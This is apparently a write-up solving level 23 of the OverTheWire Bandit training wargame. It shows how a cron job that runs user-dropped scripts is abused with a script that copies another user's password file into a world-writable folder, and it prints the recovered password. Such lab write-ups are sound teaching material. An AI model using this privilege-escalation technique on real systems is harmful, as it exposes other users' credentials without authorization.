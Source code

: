 # Level 23

A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Solution

```bash
ssh bandit23@bandit.labs.overthewire.org -p 2220
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
bandit23@bandit:~$ mkdir /tmp/scripted/
bandit23@bandit:~$ cd /tmp/script
bandit23@bandit:~$ nano myscript.sh
```

I then needed to create a script as per the hint. Because I know the password exists at `/etc/bandit_pass/bandit24` and that cron has the permission to run the script, I can just have it printed to a file in the `/tmp/scripted/` directory:

```bash
#!/bin/bash

cat /etc/bandit_pass/bandit24 >> /tmp/scripted/password.txt
```

Then I just need to change the permissions on the file and place it within `/var/spool/bandit24/`:

```bash
bandit23@bandit:/tmp/scripted$ chmod 777 myscript.sh
bandit23@bandit:/tmp/scripted$ cp myscript.sh /var/spool/bandit24/
bandit23@bandit:/tmp/scripted$ ls -la
total 776
drwxr-sr-x    2 bandit23 root   4096 Aug  3 19:18 .
drwxrws-wt 4052 root     root 782336 Aug  3 19:19 ..
-rwxrwxrwx    1 bandit23 root     74 Aug  3 19:16 myscript.sh
bandit23@bandit:/tmp/scripted$ chmod 777 ../scripted
```

Then a case of watching the directory:

```bash
bandit23@bandit:/tmp/scripted$ watch ls -la
```

Eventually a password will be presented to our directory:

```bash
bandit23@bandit:/tmp/scripted$ cat password.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
